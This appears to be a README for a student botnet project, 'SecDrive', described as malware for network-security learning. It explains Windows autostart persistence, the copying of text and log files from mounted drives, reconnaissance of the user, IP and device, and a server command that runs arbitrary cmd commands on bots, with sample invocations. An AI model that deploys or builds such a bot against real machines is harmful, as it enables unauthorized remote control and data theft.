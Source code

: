 # SecDrive
Program works as an example of malware and presenting how botnet application could work. It is a student project and should be use only for Information Networks Security learning purposes.
## How it works
Program runs as "bot" or as "server".
At start Bot copy itself to Windows system autostart location and some archive location.
If drive is mounted it copy txt and log files to specified in code archive location.

Then Bot is getting commands from server, processing it and sending responses. Server is sending commands and getting responses from bots.

Commands and responses:
* say - send a message and waiting for response
    * hello - get a user name, IP address, and Device name from bot.

* viewSite - bot open a web page and send back a page content
    * default - open "https://www.myip.com/"
    * websiteAddress - open given web page

* cmdRun - bot run a cmd command on its Windows system
    * command - command to run

## How to run it
Simple run Jar file with argument "bot".
After that it is replicating itselft so only run.bat file needs to be run.

On the server site run jar file with parameters:
```
java -jar JarFile.jar server_send say message

java -jar JarFile.jar server_send viewSite default

java -jar JarFile.jar server_send viewSite webAddress

java -jar JarFile.jar server_send cmdRun command
```
### Examples:
```
java -jar JarFile.jar server_send say hello

java -jar JarFile.jar server_send viewSite default

java -jar JarFile.jar server_send viewSite "https://amazon.com"

java -jar JarFile.jar server_send cmdRun "cd C:\ & dir"
```
